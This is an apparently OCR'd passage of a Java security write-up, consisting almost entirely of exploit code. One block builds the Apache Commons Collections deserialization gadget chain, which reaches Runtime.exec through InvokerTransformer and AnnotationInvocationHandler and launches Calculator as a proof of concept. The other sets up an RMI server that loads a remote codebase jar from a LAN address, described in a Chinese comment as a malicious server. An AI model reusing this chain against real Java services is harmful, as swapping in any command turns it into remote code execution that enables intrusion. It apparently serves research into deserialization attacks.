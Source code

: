```java
    }

    public static Object payload() throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]
                        {String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class,
                        Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})};
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null,transformerChain);
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class,Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        //return instance;
	return new String();
    }
}
```



`Index.java`

```java
package Remote;

import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.UnicastRemoteObject;
public class Index {
    public static void main(String[] args) throws RemoteException,
            MalformedURLException {
        try {
            System.setProperty("java.rmi.server.codebase",
                    "http://192.168.0.104:8000/commons-collections-3.1.jar"); //恶意服务端导入远程外部库
            
            RemoteHello h = new RemoteHelloImpl();
            RemoteHello skeleton = (RemoteHello)
                    UnicastRemoteObject.exportObject(h, 0);
            LocateRegistry.createRegistry(1099);
            Naming.rebind("rmi://127.0.0.1:1099/Hello", h);
          
        } catch (RemoteException e) {
            e.printStackTrace();
        } catch (MalformedURLException e) {
            e.printStackTrace();
        }
    }
}
```
